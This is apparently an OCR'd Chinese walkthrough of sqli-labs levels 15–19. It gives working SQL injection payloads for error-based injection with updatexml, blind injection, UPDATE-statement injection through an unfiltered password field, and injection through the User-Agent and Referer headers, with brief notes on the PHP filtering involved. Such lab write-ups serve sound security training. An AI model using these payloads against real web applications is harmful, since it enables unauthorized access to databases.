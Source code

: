 POST 双引号，报错注入 

uname=admin" and updatexml(1, concat(0x7e, version()), 1) -- -&passwd=admin&submit=Submit 



##第15关 

盲注 

uname=admin'and database()='security'-- -&passwd=admin&submit=Submit 



##第16关 

双引号+括号，盲注 

uname=admin")and database()='security'-- -&passwd=admin&submit=Submit 



##第17关 

Update 注入 

增加了过滤函数check_input 

stripslashes() 函数删除由 addslashes() 函数添加的反斜杠。 

is_numeric：检测是否为数字字符串，可为负数和小数 

ctype_digit：检测字符串中的字符是否都是数字，负数和小数会检测不通过 

mysql_real_escape_string() 函数转义 SQL 语句中使用的字符串中的特殊字符。 



Php程序对username进行了check_input 过滤，但是没有对password进行过滤 

uname=admin&passwd=test1324'and updatexml(1,concat(0x7e,user()),1) -- +&submit=Submit 

uname=admin&passwd=test1324'and updatexml(1,concat(0x7e,(select concat(table_name) from information_schema.tables where table_schema='security'limit 3,1)),1) -- +&submit=Submit 



##第18关 

referer注入，uname & password 均有check_input 过滤，但header 没有过滤。需要构造values的字段。 

源码：$insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)"; 

​            mysql_query($insert); 

​            print_r(mysql_error());   

//此payload 相当于构造三个字段去拼凑sql语句，然后注释后面，进行报错注入

User-Agent: firefox'and updatexml(1,concat(0x7e,database()),1),1,1) -- + 



##第19关 

同样的道理，类似18关，注入点在referer，此payload 相当于构造一个字段 

Referer: x' and updatexml(1,concat(0x7e,user()),1) and ‘ 
